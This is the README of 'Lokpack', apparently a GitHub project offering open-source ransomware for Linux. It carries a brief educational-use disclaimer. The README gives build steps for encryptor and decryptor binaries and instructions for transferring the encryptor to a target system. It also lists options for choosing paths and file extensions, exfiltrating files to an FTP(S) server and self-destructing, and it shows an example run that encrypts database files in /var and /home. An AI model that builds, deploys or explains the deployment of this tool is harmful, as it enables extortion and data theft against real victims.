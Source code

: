 # Lokpack | Free and open source ransomware
Lokpack is a free (as in freedom) and open source ransomware 
tool targeting x64 Linux systems, written in C.

> [!CAUTION]
> This tool is designed and shared only for educational and 
> research purposes. I do not support or promote any kind of illegal or 
> unethical use of this tool. If you are crimminal and you want to use this tool 
> for illegal or unethical purposes, please fuck off.

## Features
- Build static encryption and decrypiton tools
- Steal files using a FTP(S) server
- Specify custom target paths
- Uncrackable AES-256 encryption
- Multi-threaded (a.k.a. fast)

## Build
Required libraries/tools:
- A (x86_64) Linux system
- gcc and other build tools 
- curl (and headers)
- openssl (and headers)

To generate static builds, you will need static libraries of curl and openssl, 
**if your distro does not package these**, you can build them yourself or use the automated
build scripts:
```bash
./scripts/openssl.sh
./scripts/curl.sh
```
**Note that automated script for curl does not support SSL connections**.

After building the static libraries, use the build script to create build with a random key:
```bash
./scripts/build.sh
```
This should create the `encryptor` and the `decryptor` binares at `dist/`.

## Options
After transfering `encryptor` to the target system, you can specify custom options:
```bash
$ ./encryptor --help
[*] Listing available options:
    --threads  => Thread count for the thread pool
    --paths    => Paths to look for files
    --exts     => Valid extensions for files
    --ftp-url  => Address for the FTP(S) server
    --ftp-user => FTP(S) username
    --ftp-pwd  => FTP(S) password
    --no-ftp   => Disable stealing files with FTP(S)
    --destruct => Self destruct the program
    --debug    => Enable debug output
```

For example to encrypt `.sql` and `.db` files located at `/var` and `/home` without FTP using 100 threads:
```bash
./encryptor --threads=100 --paths=/var,/home --exts=sql,db --no-ftp
```

### Setting up FTP(S)
For an actual FTP(S) setup you should install a FTP daemon such as `vsftpd` or `bftpd`. But for testing you can 
use `pyftpdlib`:
```bash
# username and password are 'anonymous' 
# which is default for the encryptor
python3 -m pyftpdlib -w
# -w for write access
```

---
<img src="https://files.ngn.tf/gpl3.png" width="200px">
